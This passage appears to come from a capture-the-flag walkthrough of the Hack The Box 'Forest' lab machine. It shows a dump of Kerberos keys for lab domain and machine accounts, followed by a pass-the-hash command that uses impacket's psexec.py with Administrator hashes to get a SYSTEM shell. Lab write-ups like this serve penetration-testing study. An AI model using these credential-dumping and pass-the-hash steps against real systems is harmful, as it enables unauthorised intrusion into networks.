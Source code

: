 ```bash
htb.local\svc-alfresco:aes256-cts-hmac-sha1-96:46c50e6cc9376c2c1738d342ed813a7ffc4f42817e2e37d7b5bd426726782f32
htb.local\svc-alfresco:aes128-cts-hmac-sha1-96:e40b14320b9af95742f9799f45f2f2ea
htb.local\svc-alfresco:des-cbc-md5:014ac86d0b98294a
htb.local\andy:aes256-cts-hmac-sha1-96:ca2c2bb033cb703182af74e45a1c7780858bcbff1406a6be2de63b01aa3de94f
htb.local\andy:aes128-cts-hmac-sha1-96:606007308c9987fb10347729ebe18ff6
htb.local\andy:des-cbc-md5:a2ab5eef017fb9da
htb.local\mark:aes256-cts-hmac-sha1-96:9d306f169888c71fa26f692a756b4113bf2f0b6c666a99095aa86f7c607345f6
htb.local\mark:aes128-cts-hmac-sha1-96:a2883fccedb4cf688c4d6f608ddf0b81
htb.local\mark:des-cbc-md5:b5dff1f40b8f3be9
htb.local\santi:aes256-cts-hmac-sha1-96:8a0b0b2a61e9189cd97dd1d9042e80abe274814b5ff2f15878afe46234fb1427
htb.local\santi:aes128-cts-hmac-sha1-96:cbf9c843a3d9b718952898bdcce60c25
htb.local\santi:des-cbc-md5:4075ad528ab9e5fd
amirr0r:aes256-cts-hmac-sha1-96:1bcb06ac63d36244df3f5e5caf71124272fb4f3a39a92f7388e0dae5c6a1e994
amirr0r:aes128-cts-hmac-sha1-96:4579d5cfdce40a61edd38e611ecb54a4
amirr0r:des-cbc-md5:942f64df5b4f68c4
FOREST$:aes256-cts-hmac-sha1-96:436bb9ae0cf5796398fafe5ff9bdff2ad2d9159151a3da186753c95c708ffd9f
FOREST$:aes128-cts-hmac-sha1-96:51ff1311236394aa15091e4b7029f142
FOREST$:des-cbc-md5:e0c43de6544f5e83
EXCH01$:aes256-cts-hmac-sha1-96:1a87f882a1ab851ce15a5e1f48005de99995f2da482837d49f16806099dd85b6
EXCH01$:aes128-cts-hmac-sha1-96:9ceffb340a70b055304c3cd0583edf4e
EXCH01$:des-cbc-md5:8c45f44c16975129
[*] Cleaning up..
```

### Pass The Hash

We can use **PsExec** with `Administrator` hashes to gain access:

```bash
$ python3 /usr/share/doc/python3-impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.10.10.161
```

![](/assets/img/htb/machines/windows/easy/forest/system.png)

Now that we're **SYSTEM** on the target machine, we could stop here... 😎

___
